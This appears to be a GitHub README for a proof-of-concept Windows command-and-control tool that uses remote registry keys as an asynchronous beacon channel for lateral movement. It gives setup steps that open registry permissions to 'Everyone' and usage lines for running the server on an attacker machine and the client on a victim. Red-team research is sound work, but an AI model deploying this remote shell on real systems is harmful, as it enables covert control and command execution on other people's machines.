 # Everything Is A Shell... An asyncrounous shell at least...

## Disclaimer
The shells are all Proof-of-Concept and have only been tested in my lab. They are made to test the if the shells actually work and nothing else. Enjoy :)

## Concept for this repository
This repository is made to explore more untraditional ways for establishing command and control (c2) on Microsoft Windows systems. The shells in this repository are asynchronous just like Cobalt Strikes shells: Asyncronous. This means that the client (beacon) and server (C2) will not communicate at all times like a standard netcat/meterpreter shell. Instead, the client will check-in for any new commands from the server at a given interval (sleep timer). If a command is found, the client will execute it, and post the result back to the server. The checkin-interval is a sleep timer just like in Cobalt Strike. 

At this moment, the repository only has a C2 using Windows Registry keys, but I hope to add more in the future. 

## C2 using Windows registry keys

### Short description: 
This reverse shell is based on Windows Registry keys. Windows allows for specific users to read, write and/or delete registry keys on remote systems using the WinReg Protocol (MS-RRP), which is build on top of the RPC protocol: (https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78). Using custom code, it is possible to create a client-server-relationsship by having certain registry keys located on the server that the client can interact with.  

**Requirements:** 
The Remote Registry Service needs to be enabled on the server, and the user trying to connect/read/write to the remote registry needs to have the correct permissions.

**Limitations:** 
Since the traffic is based on RPC, it should only be suitable for lateral movement on local networks, however I have not tested it over the internet. 

### How it works:
1. When the server starts, the Remote Registry Service is enabled and started. 
2. The registry key HKEY_LOCAL_MACHINE\Software\RegistryC2\<user-defined> is created along with the following registry values: cmd, output & sleep. 
3. Permissions are then set for the user "Everyone" on the newly created registry key.
4. Permissions are then likewise set on the key: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg. This ensures that the client any client can authenticate to the server. (N.B. On exiting/closing of the server, these permissions are removed again.) 
5. The client will then check the C2 server for the value of "sleep" to determine how often to check it. 
6. The client then executes whatever command found in the "cmd"-value. 
7. The result of the command is written as a string to the C2's "output" value. 
8. While running, the server will look for new updates to the "output" value and prints it back to the attacker.

### Usage:
**Setup the server on the attackers machine (listener/C2):**
``` 
RegC2Server.exe <Unique Registry key name to use>
RegC2Server.exe victim01
```
**Starting the client on the victim (beacon):**
```
RegC2Client.exe <host> <Registry key name used to start the server>
RegC2Client.exe ws01 victim01
```

**Since this is a POC, only the following commands have been implemented:**
```
>help
sleep <int>      Set the sleep time to the value of int
cmd <command>    cmd to execute
exit             Exit the application gracefully
```


### Screenshot:


Win32 apis 

Wireshark traffic
